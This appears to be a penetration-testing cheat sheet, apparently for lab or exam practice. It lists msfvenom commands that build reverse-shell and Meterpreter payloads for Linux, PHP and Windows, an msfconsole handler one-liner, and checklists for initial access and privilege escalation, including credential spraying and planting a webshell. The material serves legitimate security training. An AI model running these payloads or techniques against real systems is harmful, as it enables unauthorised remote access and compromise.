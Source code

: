 ```jsx
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.168 LPORT=443 -f elf -o sh
```

### php

```jsx
msfvenom -p php/reverse_php -f raw lhost=192.168.45.210 lport=443 > pwn.php
```

## one line handler

```jsx
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
```

```jsx
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST $(echo $IP); set LPORT 443; set ExitOnSession false; run -j"
```

# Stuck?

- Think simple!
- Go on break! Grab a snack 🙂
- Think simple!
- Something seems broken? (web\certutil\enumeration) = REVERT!!!!!
- **Think simple!**

## Initial access?

- Did you really look on the nmap output? check the service name\version\ports\HTTP titles for exploits.
- Did you try deafult credentials?
- Did you enumerate all web directories?
- Did you look on the weird ports with `nc -nv ip port`???
- Web enumeration! did you **RECURSIVLY** enumerate every directory??
- Can’t get reverse shell? try to use the same ports that are open on the machine (not only the basic 443 🙂)
- Did you check **SNMP**?

## Privilege escalation?

- Read linpeas/winpeas again - SLOWLY! (Do you see any passwords?)
- Enumerate manually
- Look for interesting files in /opt /Program Files
- Note every special file you see in the home directories.
- **GET STABLE SHELL!**
- Did you try to switch users / spray creds? (linux - get TTY to use ‘su’!!!)
- Try to run all exploits from suggested linpeas + all known exploits in linux section.
- Did you try to target other users/services? check if APACHE running and can write in it’s dir (can put there webshell)
